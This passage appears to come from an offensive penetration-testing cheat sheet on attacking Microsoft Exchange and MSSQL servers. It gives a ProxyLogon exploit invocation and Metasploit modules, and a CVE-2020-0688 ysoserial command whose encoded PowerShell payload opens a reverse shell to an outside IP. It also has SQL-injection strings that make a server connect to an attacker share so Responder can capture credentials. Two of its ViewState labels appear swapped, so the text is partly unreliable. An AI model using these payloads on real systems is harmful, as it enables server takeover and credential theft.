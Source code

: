 #### ProxyLogon

[**ProxyLogon**](https://github.com/hausec/ProxyLogon) **is the name given to CVE-2021-26855 that allows an attacker to bypass authentication and impersonate users on MS Exchange servers**

```
python proxylogon.py $ip user@fqdn
```

> using metasploit:

```
use auxiliary/scanner/http/exchange_proxylogon
use auxiliary/gather/exchange_proxylogon
use exploit/windows/http/exchange_proxylogon_rce
```

#### CVE-2020-0688

this CVE allow RCE on EWS through fixed cryptographic keys

_Get Values for RCE :_

* _ViewStateUserKey_ : `document.getElementById("_VIEWSTATEGENERATOR").value`
* _ViewStateGenerator_ : `ASP.NET_SessionId`

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell -exec bypass -enc JHNtPShOZXctT2JqZWN0IE5ldC5Tb2NrZXRzLlRDUENsaWVudCgiMTAuMTAuMTQuOSIsOTAwNikpLkdldFN0cmVhbSgpO1tieXRlW11dJGJ0PTAuLjY1NTM1fCV7MH07d2hpbGUoKCRpPSRzbS5SZWFkKCRidCwwLCRidC5MZW5ndGgpKSAtbmUgMCl7OyRkPShOZXctT2JqZWN0IFRleHQuQVNDSUlFbmNvZGluZykuR2V0U3RyaW5nKCRidCwwLCRpKTskc3Q9KFt0ZXh0LmVuY29kaW5nXTo6QVNDSUkpLkdldEJ5dGVzKChpZXggJGQgMj4mMSkpOyRzbS5Xcml0ZSgkc3QsMCwkc3QuTGVuZ3RoKX0=" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="05ae4b41-51e1-4c3a-9241-6b87b169d663" --isdebug –islegacy
```

### MSSQL Server

#### UNC Path Injection

\[ ❓ ] : Uniform Naming Convention **allows the sharing of resources** on a network via a very precise syntax: `\IP-Server\shareName\Folder\File`

launch responder : `responder -I eth0`

```
EXEC master..xp_dirtree \"\\\\192.168.1.33\\\\evil\";
```

```
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';--
```

#### MC-SQLR Poisoning

_The SQL Server Resolution Protocol is a simple application-level protocol that is used for the transfer of requests and responses between clients and database server discovery services._

```
CreateObject("ADODB.Connection").Open "Provider=SQLNCLI11;Data Source=DOESNOTEXIST\INSTANCE;Integrated Security=SSPI;"
```
